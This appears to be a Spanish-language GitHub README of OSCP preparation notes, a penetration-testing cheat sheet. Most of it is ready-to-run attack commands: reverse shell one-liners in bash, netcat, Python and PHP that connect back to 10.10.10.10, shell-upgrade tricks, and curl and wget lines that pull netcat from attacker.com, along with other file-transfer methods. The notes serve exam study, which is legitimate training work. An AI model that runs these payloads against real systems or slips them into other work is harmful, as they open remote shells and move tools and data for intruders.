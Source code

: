 ﻿# Notas de preparación para el OSCP 

**Año : 2021**

![oscp](https://blog.nivel4.com/wp-content/uploads/2019/01/try-harder.png)

**Curso: Penetration Testing with Kali Linux (PEN-200)**

## Contenido
- [Linux](#Linux)  
  - [Reverse shells](#Reverse-shells) 
    - [Bash](#Bash)
    - [Netcat](#Netcat)   
    - [Python](#Python)
    - [PHP](#PHP)
  - [Spawneando una shell mejor](#Spawning-a-TTY-shell)   
  - [Transferencia de Archivos](#Transfiriendo-Archivos)
    - [HTTP](#HTTP)
      - [Python](#Python)
      - [Python3](#Python)
      - [Apache](#Python)
      - [Php](#Php)
    - [Curl](#Curl)
    - [Wget](#Wget)
    - [NetCat](#NetCat)
    - [/dev/tcp/](#/dev/tcp)
    - [FTP](#FTP)
    - [SCP](#SCP)
    - [Samba](#Samba)
   
  - Bypassing restricted shells (rbash , rzsh,etc)    
- [Windows](#Windows)
- 
- [Reverse Shell]

Linux 
=========================================
Técnicas para utilizar en sistemas basados en unix

### Reverse shells

[Reverse shell generator](https://www.revshells.com/)

### Reverse shell comúnes
#### Bash
  ```bash
  bash -i >& /dev/tcp/10.10.10.10/9001 0>&1 
  ```
#### Netcat 
  ```bash
  nc -e /bin/bash 10.10.10.10 9001
  nc -e /bin/sh 10.10.10.10 9001
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
  ```
  
#### Python
  ```bash
  export RHOST="10.10.10.10";export RPORT=9001;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
  
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
  ```
#### PHP 
  ```bash
  php -r '$sock=fsockopen("10.10.10.10",9001);exec("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);shell_exec("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);system("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);passthru("bash <&3 >&3 2>&3");'
  Laudanum common reverse shell /usr/share/webshells/laudanum/php/php-reverse-shell.php
  ```
 
### Spawning a TTY shell
  ```bash 
      python3 -c 'import pty;pty.spawn("/bin/bash")' 
      script /dev/null -c bash 
      \[ctrl+z] 
      stty raw -echo
      fg
    ## Usando rlwrap & script
      rlwrap nc -nlvp 443
      /usr/bin/script -qc /bin/bash /dev/null
    ## Usando socat
      parrot~> socat file:`tty`,raw,echo=0 tcp-listen:4444
      target~> socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
    ## Exportando variables para poder tener una shell full interactiva
      export TERM=xterm-256color
      export SHELL=bash
      alias ll='ls -lsaht –color=auto'
  ```
## Transfiriendo archivos

### HTTP
#### Python
  ```bash
  python -m SimpleHTTPServer 80
  ```
#### Python3
  ```bash
  python3 -m http.server 80
  ```
#### Apache
  ```bash
  sudo service start apache2
  sudo systemctl apache2 start
  ```
#### PHP
  ```bash
  php -S 0.0.0.0:8080
  ```
### Curl
  ```bash
  curl -O http://attacker.com/nc
  ```
### Wget
  ```bash
  wget http://attacker.com/nc # current directory
  wget http://attacker.com/nc -O /dev/shm/nc # Setting output path
  ```
### NetCat
  ```bash
  target -> nc -lvp 4444 > FileToTransfer
  source -> nc targetip 4444 -w 3 < FileToTransfer (w representa un tiempo de espera en seg para archivos muy grandes)
  ```
### /dev/tcp
  ```bash
  target -> nc -lvp 4444 > FileToTransfer
  cat FileToTransfer > /dev/tcp/targetip/4444 
  ```
### FTP
  ```bash
  pip3 install pyftpdlib
  source -> python3 -m pyftpdlib -p 21 -u chan -P 123
  target -> ftp sourceip # pw : 123  
  ```
### SCP
  ```bash
  source -> scp file.txt user@10.10.10.10:/tmp
  target -> cat /tmp/file.txt
  ```
### Samba
  ```bash
  source -> sudo impacket-smbserver share $(pwd) -user chan -password
  target -> smbclient //sourceip/share -U chan%chan
  ```
